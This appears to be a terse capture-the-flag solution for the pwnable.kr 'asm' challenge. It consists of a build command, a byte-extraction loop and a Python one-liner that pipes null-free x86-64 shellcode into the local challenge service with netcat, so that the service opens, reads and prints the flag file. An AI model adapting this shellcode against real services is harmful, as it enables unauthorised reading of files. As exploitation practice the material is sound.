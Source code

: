 Toddler's Bottle asm
-------------

#### asm.s build command
as asm.s -o asm.o && ld asm.o -o asm && strace -i ./asm

#### Final code
```for i in `objdump -d asm | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' ` ; do echo -n "\x$i" ; done```

```(python -c 'print "\x48\xbb\x6f\x30\x6f\x30\x6f\x6e\x67\x11\x48\xc1\xe3\x08\x48\xc1\xeb\x08\x53\x48\xbb\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x53\x48\xbb\x30\x30\x30\x30\x30\x30\x30\x30\x53\x48\xbb\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x30\x30\x30\x30\x30\x6f\x6f\x6f\x53\x48\xbb\x30\x30\x30\x30\x30\x30\x30\x30\x53\x48\xbb\x30\x30\x30\x30\x30\x30\x30\x30\x53\x48\xbb\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x73\x5f\x76\x65\x72\x79\x5f\x6c\x53\x48\xbb\x65\x5f\x6e\x61\x6d\x65\x5f\x69\x53\x48\xbb\x5f\x74\x68\x65\x5f\x66\x69\x6c\x53\x48\xbb\x6c\x65\x2e\x73\x6f\x72\x72\x79\x53\x48\xbb\x5f\x74\x68\x69\x73\x5f\x66\x69\x53\x48\xbb\x61\x73\x65\x5f\x72\x65\x61\x64\x53\x48\xbb\x66\x69\x6c\x65\x5f\x70\x6c\x65\x53\x48\xbb\x6b\x72\x5f\x66\x6c\x61\x67\x5f\x53\x48\xbb\x70\x77\x6e\x61\x62\x6c\x65\x2e\x53\x48\xbb\x74\x68\x69\x73\x5f\x69\x73\x5f\x53\x48\xc7\xc0\x02\x11\x11\x11\x48\xc1\xe0\x38\x48\xc1\xe8\x38\x48\x89\xe7\x48\x31\xf6\x0f\x05\x48\x89\xc3\x48\x31\xc0\x48\x89\xdf\x48\x89\xe6\x48\xc7\xc2\x43\x11\x11\x11\x48\xc1\xe2\x38\x48\xc1\xea\x38\x0f\x05\x48\xc7\xc0\x01\x11\x11\x11\x48\xc1\xe0\x38\x48\xc1\xe8\x38\x48\xc7\xc7\x01\x11\x11\x11\x48\xc1\xe7\x38\x48\xc1\xef\x38\x48\x89\xe6\x48\xc7\xc2\x43\x11\x11\x11\x48\xc1\xe2\x38\x48\xc1\xea\x38\x0f\x05"'; cat) | nc 0 9026```
